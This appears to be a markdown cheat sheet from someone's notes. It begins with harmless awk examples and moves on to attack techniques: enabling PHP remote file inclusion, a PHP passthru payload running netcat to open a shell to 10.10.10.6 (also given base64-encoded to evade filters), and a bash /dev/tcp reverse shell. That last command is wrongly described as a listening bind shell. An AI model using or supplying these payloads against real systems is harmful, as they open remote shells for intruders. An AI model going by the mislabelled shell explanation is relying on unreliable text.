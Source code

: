 # Command Reference: Text Processing and Shell Operations

## `awk` Commands

`awk` is a powerful text-processing language that is used for pattern scanning and processing. Below are some common `awk` commands and their explanations:

### Basic Commands

1. **Print Specific Fields from a File**
    ```sh
    awk -F ":" '{print $1 $6}' /etc/passwd
    ```
    - `-F` sets the delimiter, in this case, a colon (`:`), which `awk` uses to recognize columns from the input.
    - `{print $1 $6}` prints the first and sixth fields of each line in the `/etc/passwd` file.

2. **Set Field and Output Field Separators**
    ```sh
    awk 'BEGIN{FS=":"; OFS="-"} {print $1,$6,$7}' /etc/passwd
    ```
    - `BEGIN{FS=":"; OFS="-"}` sets the input field separator to a colon (`:`) and the output field separator to a hyphen (`-`).
    - `{print $1,$6,$7}` prints the first, sixth, and seventh fields of each line in the `/etc/passwd` file.

3. **Print the Last Field of Lines Starting with a Slash**
    ```sh
    awk -F "/" '/^\// {print $NF}' /etc/shells
    ```
    - `-F "/"` sets the delimiter to a slash (`/`).
    - `/^\//` matches lines that start with a slash.
    - `$NF` represents the last field of the line.

4. **Print Lines Shorter Than 8 Characters**
    ```sh
    awk 'length($0) < 8' /etc/shells
    ```
    - `length($0) < 8` prints lines where the total length is less than 8 characters.

5. **Print Lines Starting with 'b' or 'c'**
    ```sh
    awk '$1 ~ /^[b,c]/ {print $0}' .bashrc
    ```
    - `$1 ~ /^[b,c]/` matches lines where the first field starts with 'b' or 'c'.
    - `{print $0}` prints the entire line.

## Enable Remote File Inclusion on a PHP Website

Remote File Inclusion (RFI) allows a PHP script to include and execute code from a remote server. This can be useful for testing but poses significant security risks if not properly managed.

### Steps to Enable RFI

1. **Edit PHP Configuration**
    ```sh
    sudo nano /etc/php5/cgi/php.ini
    ```
    - Open the PHP configuration file in a text editor.

2. **Search for Configuration Options**
    - Press `Ctrl + w` and search for `allow_url`.

3. **Enable URL Options**
    - Set `allow_url_fopen` and `allow_url_include` to `On`.

4. **Restart Web Server**
    ```sh
    sudo /etc/init.d/apache2/restart
    ```

### Execute OS Commands with `passthru()`

1. **Create a PHP File**
    ```php
    <?php
    passthru("nc -e /bin/sh 10.10.10.6 8080");
    ?>
    ```

2. **Base64 Encoding to Evade Filters**
    ```php
    <?php
    passthru(base64_decode("bmMgLWUgL2Jpbi9zaCAxMC4xMC4xMC42IDgwODA="));
    ?>
    ```
    - `base64_decode` decodes the base64-encoded string, which helps evade certain filters.

## Shell Spawning

Spawning a shell can be useful for gaining interactive access to a system.

### Python3 PTY Shell

1. **Spawn a PTY Shell**
    ```sh
    python3 -c 'import pty; pty.spawn("/bin/bash")'
    ```
    - This command spawns a pseudo-terminal (PTY) shell.

2. **Turn Off Terminal Echo and Foreground the Shell**
    ```sh
    export TERM=xterm
    stty raw -echo; fg
    ```

### Bash BIND Shell

1. **Create a BIND Shell**
    ```sh
    bash -c "bash -i >& /dev/tcp/{your_IP}/443 0>&1"
    ```
    - This command creates a BIND shell that listens on port 443 and redirects input/output to the specified IP address.